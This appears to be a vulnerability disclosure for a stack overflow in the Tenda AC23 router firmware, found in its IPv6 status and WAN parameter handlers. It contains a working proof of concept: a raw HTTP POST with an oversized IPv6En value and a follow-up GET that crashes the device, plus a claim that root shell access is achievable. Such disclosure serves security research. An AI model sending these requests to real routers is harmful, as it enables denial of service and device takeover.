




# Tenda AC23 V16.03.07.45_cn Stack overflow vulnerability

## Firmware information

- Manufacturer's address: https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-3420.html

## Affected version

I have verified that **Tenda AC23 V16.03.07.45_cn** products have stack overflow vulnerability, and other series products have not been verified for the time being.

## Vulnerability details



```
formSetIPv6status -> sub_4B28B4		// set
```

`sub_4b28b4`






```
formGetWanParameter		// get
```

`formGetWanParameter`




## POC

**First**

```python
POST /goform/setIPv6Status HTTP/1.1
Host: 192.168.0.1
Content-Length: 1175
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=25d55ad283aa400af464c76d713c07adjaicvb
Connection: close

IPv6En=1111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&conType=DHCP&ISPusername=&ISPpassword=&prefixDelegate=0&wanAddr=%2F64&gateWay=&lanType=undefined&wanPreDNS=&wanAltDNS=&lanPrefix=undefined%2F64
```

**Second**

```python
GET /goform/getWanParameters?0.0608492814930528&_=1691912734570 HTTP/1.1
Host: 192.168.0.1
Accept: text/plain, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=25d55ad283aa400af464c76d713c07adjaicvb
Connection: close


```

By running the poc, you can see the crash.

With careful construction of the exp, we can finally get the root shell.


